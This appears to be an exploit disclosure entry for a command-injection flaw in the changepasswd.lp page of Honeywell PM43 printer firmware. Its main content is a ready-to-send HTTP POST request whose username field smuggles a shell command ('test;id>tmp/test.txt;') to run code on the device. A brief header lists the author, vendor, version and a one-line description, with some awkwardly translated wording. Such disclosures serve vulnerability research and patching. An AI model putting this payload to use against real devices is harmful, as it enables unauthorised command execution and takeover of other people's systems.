

#### Exploit Title

Honeywell Products changepasswd.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used



```
POST /changepasswd.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=9467508602534952371f4aa348a930869a0c61de06e2f4df0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

username=test;id>tmp/test.txt;&userpassword=123456&pageid=1
```


